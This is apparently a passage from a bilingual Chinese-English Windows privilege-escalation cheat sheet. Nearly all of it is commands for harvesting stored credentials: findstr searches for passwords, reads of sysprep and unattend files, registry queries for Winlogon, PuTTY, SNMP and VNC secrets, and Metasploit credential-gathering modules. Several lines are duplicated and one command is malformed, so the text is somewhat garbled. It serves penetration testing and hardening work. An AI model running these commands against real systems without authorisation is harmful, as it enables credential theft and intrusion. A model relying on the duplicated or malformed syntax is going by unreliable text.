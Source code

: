 We might somtetimes find passwords in arbitrary files, you can find them running:
有时可能会在「某些文件」中找到存放的明文密码，这样就可以方便的帮我们提升权限。
可以用下列命令查找：
```
$ findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
```
- 在`.config`配置文件中查找 pass、cred、vnc 这些敏感字符:
```
$ dir /s *pass* == *cred* == *vnc* == *.config*
```

- 在所有文件中查找 passwords ：
```
Find all passwords in all files.
Find all passwords in all files.
$ findstr /spin "password" *.*
$ findstr /spin "password" *.*
```
- 这些是可能存在密码信息的常用文件，请注意它们可能是base64编码的。
```
$ type c:\sysprep.inf
type c:\sysprep\sysprep.xml
type c:\unattend.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml
$ dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
```
- 查找注册表中的信息:
```
$ reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```
- 查找注册表中 password 信息:
```
$ reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
- 使用 meterpreter 进行信息收集:
```
> post/windows/gather/credentials/gpp
> post/windows/gather/enum_unattend
```
